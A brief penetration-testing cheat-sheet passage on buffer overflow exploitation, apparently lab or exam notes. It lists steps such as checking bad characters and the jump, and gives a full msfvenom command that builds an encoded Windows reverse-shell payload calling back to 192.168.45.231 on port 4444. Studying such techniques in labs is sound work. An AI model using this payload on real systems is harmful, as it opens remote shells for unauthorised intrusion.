 
### Buffer overflow
- make sure the connection works, cross-compile if necessary. (Make sure to use libraries)
- Check for any mentioned "bad characters"
Use MSFVenom for a payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
- Check if the jump is correct